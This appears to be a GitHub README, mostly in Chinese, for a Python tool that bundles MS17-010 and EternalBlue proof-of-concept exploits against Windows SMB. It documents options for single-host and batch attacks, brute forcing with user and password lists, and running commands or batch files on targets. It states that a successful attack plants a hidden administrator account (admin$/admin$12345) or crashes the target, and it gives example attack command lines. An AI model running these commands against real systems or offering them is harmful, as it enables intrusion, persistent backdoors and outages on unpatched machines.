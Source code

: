 # ms17010-nsa-EternalBlue
integration ms17010 and nsa-EternalBlue

主要集成nsa的永恒之蓝和ms17010系列poc。
永恒之蓝poc有windows 7/2008 和 windows 8/2012 x64
ms17010 则是win all，Windows Vista以下可以匿名成功获取system权限，
vista以上则需要 命名管道 接入权限，一般需要域用户权限。

Usage: "usage:MyExploiter.py [options] target"

Options:

  --version             show program's version number and exit
  
  -h, --help            show this help message and exit
  
  -m MODE, --mode=MODE  attack mode 0:ms17010 attack one; 1: ms17010 attack by
  
                        file; 2:blue attack one;3:blue attack Mul;4:check
						
                        one;5:check Mul)
						
  -p PORT, --port=PORT  SMB SERVICE PORT
  
  -u USER, --user=USER  SMB USER
  
  -U USERS, --users=USERS user file,SMB USERS
						
  --pwd=password        SMB USER PASSWORD
  
  --pwds=passwords, --pwds=passwords  pwd file,EACH SMB USER PASSWORDS
						
  -t THREADS, --threads=THREADS  thread num
						
  -c COMMOND, --cmd=COMMOND  execute commond on target
						
  -b BATCH, --batch=BATCH    batch file,execute batch file on target
  
  eg:
  模式0：自动执行ms17010攻击，攻击成功后靶机增加管理员账号admin$/admin$12345 
  
  ms17010EXP 192.168.1.10 || ms17010EXP -U user.txt        --pwds=pwd.txt -t(线程数) 2 192.168.1.10
  
  模式1：批量执行ms17010攻击，攻击成功后靶机增加管理员账号admin$/admin$12345  
  
  ms17010EXP -m 1 ip.txt || ms17010EXP -m 1 -U user.txt --pwds=pwd.txt -t(线程数) 2 ip.txt
  
  模式2：执行永恒之蓝攻击，shellcode为shellcode.bin,成功后靶机或蓝屏或增加用户admin$/admin$12345 
  
  ms17010EXP -m 2 192.168.1.10
  
  模式3，批量永恒之蓝攻击，ms17010EXP -m 3 ip.txt
  
  模式4，检测靶机是否打补丁及命名管道的接入情况  ms17010EXP -m 4 192.168.1.10
  
  模式5，批量检测 ms17010EXP -m 5 -t 2 --users=user.txt --pwds=pwd.txt ip.txt

  注意：用户名字典 密码字典 最后一行置空，即每行必须有换行符。
  
						
基于：https://github.com/worawit/MS17-010 

